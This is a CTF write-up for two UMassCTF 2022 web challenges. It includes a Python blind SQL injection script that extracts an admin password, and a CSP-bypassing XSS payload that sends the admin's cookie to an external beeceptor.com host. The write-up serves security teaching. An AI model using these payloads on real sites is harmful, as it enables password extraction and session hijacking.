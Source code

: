 ```yaml
---
title: UMassCTF 2022
author: HoangND
date: 2022-04-03 00:00:00 +0700
categories: [Writeups, UmassCTF 2022]
tags: [sqli, dom xss]
---
```


I haven't released any CTF writeups for a long time. Today i done 2 web challenge in UmassCTF so i decided writing something.

## Venting

![image](https://user-images.githubusercontent.com/61985236/161438032-f27b69b3-95c2-4fb2-9edf-2c390c2dc73b.png)

After tried web features, the proxy history showed me 1 interest endpoint.

![image](https://user-images.githubusercontent.com/61985236/161438156-c058349d-729f-497d-936e-1cde76e9243b.png)

Just change admin=True and we will get admin login page. Trying put ' in an textbox give me that this is sql injection challenge.

I tried dumped admin's password by the following script and get the flag.
```python
import requests

passwd = ''
    
for i in range(36):
    for x in range(127, 31, -1):
        c = chr(x)
        basepl = {
            "user": "admin",
            "pass": "1' or (SELECT hex(substr(password,{},1)) FROM users WHERE+username='admin') > hex('{}') and 'a'='a".format(i+1, c)
        }
        res = requests.post(
            'http://34.148.103.218:4446/fff5bf676ba8796f0c51033403b35311/login', data=basepl, verify=False)
        # print(c+'  :  '+str(len(res.text)))
        if len(res.text) == 113:
            passwd += chr(x+1)
            break

    print(passwd)

```


## Umassdining
![image](https://user-images.githubusercontent.com/61985236/161434067-5c5d653a-9c04-43e4-810d-71f0c92c829d.png)
The source code is given in the challenge's description but I checked web features first. The web navigation shows us 3 options: Home, Register, Join. Register is basically for registration, after fill the form we got the message 'We got your request and will read it shortly!'. Join navigation is maybe administrator feature because the message 'You're not allowed here!' appeared. Next we audit the source code. This web has the following 3 main endpoint

```python
@app.route("/register",methods = ['GET','POST'])
def get_register():
    if(request.method=='GET'):
        response = make_response(render_template('register.html'))
        add_resp_headers(response);
        if(check_for_cookie()==False):
            response.set_cookie("auth","-1",secure=True,samesite=None)
        return response
    elif(request.method=='POST'): 
        if(active_count()<10):
            data = request.form.to_dict()
            thread = Thread(target=bot.checkEssay,kwargs={'data':data})
            thread.start()
            return "We got your request and will read it shortly!",200
        else:
            return "We are busy right now, try again in a second",200

@app.route("/review/essay",methods = ['GET','POST'])
def reviewEssay():
    essay = {"email":request.args.get("name"),"essay":request.args.get("essay")}
    response = make_response(render_template('essay_checker.html',essay=essay))
    add_resp_headers(response)
    if(request.remote_addr != '127.0.0.1'):
        return "Sorry pal you\'re not admin"
    try:
        return response
    except:
        return 'no essays to read',200

@app.route("/join",methods = ['GET'])
def get_play():
    if(request.cookies.get("auth")==admin_cookie):
        return "TEST{not_the_real_flag}",200
    return "You're not allowed here!",403
```

Endpoint /join checks auth cookie and only returns flag if it is admin cookie. I need to get the admin token by somehow. /register forwards request data to bot.checkEssay

```python
def checkEssay(data):
    opts = Options()
    opts.add_argument("--headless")
    driver = Firefox(executable_path='/usr/bin/geckodriver',options=opts)
    driver.set_window_size(320, 240)
    driver.set_page_load_timeout(5)
    driver.get('http://127.0.0.1:8000/')
    driver.add_cookie({"name":"auth","value":admin_cookie})
    driver.get('http://127.0.0.1:8000/review/essay?email={a}&essay={b}'.format(a=data['email'],b=data['essay']))    
    time.sleep(3)
    driver.quit()
```

The above section takes data from register endpoint, add admin's cookie to cookie and make request to the last of 3 endpoints - /review/essay, maybe i could leak the cookie from this. Look /review/essay handler

```python
def reviewEssay():
    essay = {"email":request.args.get("name"),"essay":request.args.get("essay")}
    response = make_response(render_template('essay_checker.html',essay=essay))
    add_resp_headers(response)
    if(request.remote_addr != '127.0.0.1'):
        return "Sorry pal you\'re not admin"
    try:
        return response
    except:
        return 'no essays to read',200
```

Check the essay_checker template returned by the above handler

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Essay Review</title>
</head>
<body>
    <h1> 
        Essay Review Panel
    </h1><br>
    <div>
        <main>
            Essay<br> 
            {{essay.essay|safe}}<br>
            Author<br>
            {{essay.email}}<br>
        </main>
    </div>
</body>
</html>
```

The jinja2's safe filter is used in essay property of essay object. The safe filter basically disables html-escape in the expression passed through it while rendering html page. It's maybe vulnerable to XSS exploit and i can make outbound request to get admin's cookie. I tried some basic payload but it didn't work, my outbound server didn't get any requests. The reason is the following

![image](https://user-images.githubusercontent.com/61985236/161436404-6ad54892-f973-4b15-8e6a-f7b945b99f17.png)

```python
def add_resp_headers(response):
    response.headers['Content-Security-Policy']= "default-src 'self';script-src 'self' 'unsafe-eval'"
```

The above section adds CSP header to response that restrict browser can only load resource from the current origin. It literally means all directly payloads from our essay param won't work. For more information about CSP, you can read [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy). I checked static folder and expected there was any usefull javascript file in it. And i saw things.js

```javascript
var iloveumass = document.getElementById("debug").getAttribute("data-iloveumass");
function say_something(words)
{
    setTimeout(`console.log('${words}')`,500)
}
document.addEventListener("DOMContentLoaded", function() {
    say_something(iloveumass)
});
```

This script gets the html element with id 'debug', takes 'data-iloveumass' attribute from it and passes it to vulnerable setTimeout function call. We can manipulate this file to bypass CSP protection. Final payload is the following

```html
<script id='debug' src="/static/js/thing.js" data-iloveumass="aaa');eval(document.location='http://hoangnd.free.beeceptor.com?cookie='%2bdocument.cookie);console.log('aaa"></script>
```

Put it in essay in register form, and an request will be made to your server.

![image](https://user-images.githubusercontent.com/61985236/161437862-27d1340d-9516-4ecc-b6e2-27f02e629e92.png)

Add admin's cookie to /join endpoint and get flag.




